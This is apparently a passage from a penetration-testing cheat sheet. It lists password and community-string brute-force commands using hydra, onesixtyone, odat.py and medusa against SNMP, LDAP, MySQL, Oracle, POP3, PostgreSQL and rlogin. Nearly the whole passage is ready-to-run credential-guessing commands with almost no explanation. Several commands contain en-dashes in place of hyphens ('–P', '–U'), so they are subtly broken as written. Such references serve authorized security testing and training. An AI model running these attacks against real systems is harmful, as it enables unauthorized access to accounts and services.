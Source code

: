 We aim to brute force community strings. \[1] Hydra

```
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt ip snmp
```

\[2] onesixtyone

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp_onesixtyone.txt ip
```

#### LDAP

```
hydra -L users.txt -P pass.txt ip ldap2 -V -f
```

#### Mysql

```
hydra -L usernames.txt -P pass.txt ip mysql
```

#### OracleSQL

\[1] With Odat.py

```
./odat.py passwordguesser -s $SERVER-IP -d $SID
```

And below we supply a wordlist

```
./odat.py passwordguesser -s $SERVER-IP -p $PORT --accounts-file users.txt
```

#### POP3

```
hydra -L userlist.txt -P pass.txt -f ip pop3 -V
```

#### Postgresql

\[1] With Hydra

```
hydra -L userlist.txt –P pass-list.txt ip postgres
```

\[2] With Medusa

```
medusa -h ip –U userlist.txt –P pass-list.txt –M postgres
```

#### rLogin

```
hydra -L userlist.txt –P pass-list.txt rlogin:ip -v -V
```
